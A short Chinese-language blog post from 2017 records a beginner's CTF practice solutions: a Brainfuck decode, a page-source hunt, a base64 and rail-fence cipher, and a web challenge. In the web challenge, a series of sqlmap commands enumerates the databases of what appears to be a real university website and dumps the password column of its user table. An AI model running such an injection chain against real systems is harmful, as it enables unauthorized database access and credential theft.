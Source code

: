 ```yaml
---
layout: post
title:  "ctf练习（1）"
desc: "新手上路"
keywords: "ctf"
date: 2017-2-13
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


#Crypto 1
---

看题目名字就知道是brainfuck，网上找到一个在线解brainfuck的网站，复制粘贴解码得到flag{welcome.html}

---



#Web 1
---

打开他给的网址，有一个“key就在这里”。当然啦。这是坑人的。查看一下源码，发现有个php，打开就能找到flag

---

#Web 3
---
天大的一个网站。别人提醒我说用sqlmap跑。吼那就sqlmap咯。
首先就是
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634"`
这个是用来判断是否有sql注入吧。
![](https://github.com/yujiarui/yujiarui.github.io/blob/master/static/img/ctf/1.png)

然后就是查询数据库
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" --dbs`
![](https://github.com/yujiarui/yujiarui.github.io/blob/master/static/img/ctf/2.png)

查询完数据库之后找表
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" -D tutv --tables`
![](https://github.com/yujiarui/yujiarui.github.io/blob/master/static/img/ctf/3.png)

找到了表之后，查询字段
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" -D tutv -T user --columns`
![](https://github.com/yujiarui/yujiarui.github.io/blob/master/static/img/ctf/4.png)

这时候就能发现password。我们需要的也是password。
`sqlmap -u "http://tutv.tju.edu.cn/Category?p=88952634&id=3&k=88952634&order=88952634" -D tutv -T user -C password --dump`
![](https://github.com/yujiarui/yujiarui.github.io/blob/master/static/img/ctf/5.png)

得到密码。

（ps：如果不知道-C是什么意思可以输入命令 sqlmap -h寻求帮助）

---

#Msic 1
---

签到题，base64解出第一次加密。第二次加密用的是栅栏密码。这里的话每三个为一组，从上往下读就能得到flag。

---